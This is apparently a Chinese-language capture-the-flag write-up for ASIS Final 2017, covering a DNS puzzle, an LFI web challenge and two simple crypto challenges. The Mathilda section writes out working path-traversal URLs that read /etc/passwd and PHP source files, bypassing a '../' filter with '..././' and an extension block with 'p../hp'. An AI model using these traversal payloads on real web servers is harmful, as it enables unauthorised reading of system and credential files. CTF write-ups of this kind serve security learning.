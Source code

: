 # ASIS Final 2017

## Dig Dug

`dig digx.asisctf.com` 找 ip

`dig -x 192.81.223.250` dns 反查 domain name

找到一個新的 domain name -> airplane.asisctf.com

去瀏覽發現一個神秘的 `./js.js`，然後在 browser console 執行 `./js.js`

會印出主辦單位給的好心提示 ( 就是說要開飛航模式才看的到 flag )

\> window.help()

\> window.dispatchEvent(new Event('offline'))

噴 flag

## Mathilda

用 wappalyzer 看出他是用 apache 2.4.25

```html
<!-- created by ~rooney -->
```

index page 有這一行所以猜他有 rooney 的 user 開 public_html 出來 ( http://178.62.48.181/~rooney/ )

發現他可以 local file inclusion ( http://178.62.48.181/~rooney/?path=rooney )

http://178.62.48.181/~rooney/?path=../../../../../../etc/passwd 沒成功

http://178.62.48.181/~rooney/?path=../rooney 得到跟 http://178.62.48.181/~rooney/?path=rooney 結果一樣，猜測他是用字串取代把 `../` 取代成空的

http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd 成功

看到 th1sizveryl0ngus3rn4me 這個 user

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php

會擋 php，沒關係，用 `../` 繞過

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.p../hp

看到他 `require 'flag.php'`

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp

噴 flag

小插曲 : 

瀏覽 http://178.62.48.181/~rooney/?path=..././..././..././..././etc/apache2/vhost/host.conf

```
...
    ServerAdmin webmaster@localhost
    DocumentRoot /flag/html/
    ServerName flagishere
...
```

在 `/etc/hosts` 加上 178.62.48.181 flagishere，去瀏覽 http://flagishere，然後就噴 forbidden

以為有什麼神奇的東西，原來是被耍啦

## Simple Crypto

xor 加密有給 key

直接解密回去

## Handicraft RSA

他的 p-1 和 q-1 有很多質因數

用 pollard p-1 algorithm 就解完了
